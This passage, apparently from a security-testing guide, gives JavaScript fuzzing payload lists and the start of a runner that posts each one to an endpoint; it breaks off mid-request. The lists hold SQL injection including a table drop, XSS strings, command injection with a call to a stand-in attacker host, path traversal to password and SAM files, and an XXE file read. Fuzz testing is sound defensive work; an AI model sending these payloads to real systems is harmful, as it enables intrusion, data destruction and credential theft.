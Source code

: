 ## Fuzzing

### Input Fuzzing

**Basic Fuzzing Framework:**
```javascript
// Fuzzing test data generators
const fuzzingPayloads = {
  sqlInjection: [
    "' OR '1'='1",
    "'; DROP TABLE users--",
    "1' UNION SELECT NULL--",
    "admin'--",
    "' OR 1=1--"
  ],

  xss: [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "javascript:alert('XSS')",
    "<svg onload=alert('XSS')>",
    "'-alert('XSS')-'"
  ],

  commandInjection: [
    "; ls -la",
    "| cat /etc/passwd",
    "& whoami",
    "`id`",
    "$(curl attacker.com)"
  ],

  pathTraversal: [
    "../../../etc/passwd",
    "..\\..\\..\\windows\\system32\\config\\sam",
    "....//....//....//etc/passwd",
    "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
  ],

  bufferOverflow: [
    "A".repeat(1000),
    "A".repeat(10000),
    "%s%s%s%s%s%s%s%s%s%s",
    "\x00" + "A".repeat(100)
  ],

  xmlInjection: [
    "<?xml version='1.0'?><!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><foo>&xxe;</foo>",
    "<![CDATA[<script>alert('XSS')</script>]]>"
  ]
};

// Fuzzing test runner
async function fuzzEndpoint(url, parameter, payloads) {
  const results = [];

  for (const payload of payloads) {
    try {
      const response = await fetch(url, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ [parameter]: payload })
```